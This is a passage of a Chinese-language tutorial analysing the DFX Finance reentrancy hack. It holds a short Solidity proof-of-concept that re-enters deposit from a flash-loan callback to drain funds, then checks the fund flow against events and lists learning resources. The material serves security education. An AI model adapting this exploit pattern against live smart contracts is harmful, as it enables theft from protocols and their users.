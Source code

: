   完成整个POC代码：  
    ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```
  
  更为详细完整的代码在DefiHackLabs库中：[DFX_exp.sol](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/DFX_exp.sol)
  
- 验证Fund flow  
  这时，我们可以通过攻击交易中代币发出的事件来对之前资金流动图进行验证
  
  ![image](https://user-images.githubusercontent.com/53768199/215331469-e1edd9b4-5147-4f82-9e38-64edce3cc91f.png)

  deposit函数执行过程中最后发出的事件验证之前dfx-xidr-v2的代币从0地址被铸造给攻击者
  
  ![image](https://user-images.githubusercontent.com/53768199/215331545-9730e5b0-564d-45d8-b169-3b7c8651962f.png)

  flash函数执行过程中最后USDC，XIDR的转移事件(闪电贷手续费收取)对应DFX Finance多签钱包收到一些USDC,XIDR代币
  
  ![image](https://user-images.githubusercontent.com/53768199/215331819-d80a1775-4056-4ddd-9083-6f5241d07213.png)

  withdraw函数执行过程中最后发出的事件对应之前dfx-xidr-v2代币发送给0地址销毁
  
- 总结  
  DFX Finance的重入攻击事件是一起典型的cross-function重入攻击，攻击者通过在falsh函数的回调操作中调用deposit函数完成了重入。值得一提的是，这次攻击的手法，正好对应了CTF damnvulnerabledefi中的第四题 [Side Entrance](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/)，如果项目的开发人员之前有认真做过，或许这次攻击事件就不会发生🤣。在同年的12月中，[Deforst](https://github.com/SunWeb3Sec/DeFiHackLabs#20221223---defrost---reentrancy) 项目也被同样的手法所攻击。
  
## 学习资源  
[Reentrancy Attacks on Smart Contracts Distilled](https://blog.pessimistic.io/reentrancy-attacks-on-smart-contracts-distilled-7fed3b04f4b6)  
[C.R.E.A.M. Finance Post Mortem: AMP Exploit](https://medium.com/cream-finance/c-r-e-a-m-finance-post-mortem-amp-exploit-6ceb20a630c5)  
[Cross-Contract Reentrancy Attack](https://inspexco.medium.com/cross-contract-reentrancy-attack-402d27a02a15)  
[Sherlock Yield Strategy Bug Bounty Post-Mortem](https://mirror.xyz/0xE400820f3D60d77a3EC8018d44366ed0d334f93C/LOZF1YBcH1eBdxlC6HP223cAMeTpNgQ-Kc4EjQuxmGA)  
[Decoding $220K Read-only Reentrancy Exploit | QuillAudits](https://quillaudits.medium.com/decoding-220k-read-only-reentrancy-exploit-quillaudits-30871d728ad5)  


  

  
  
  ```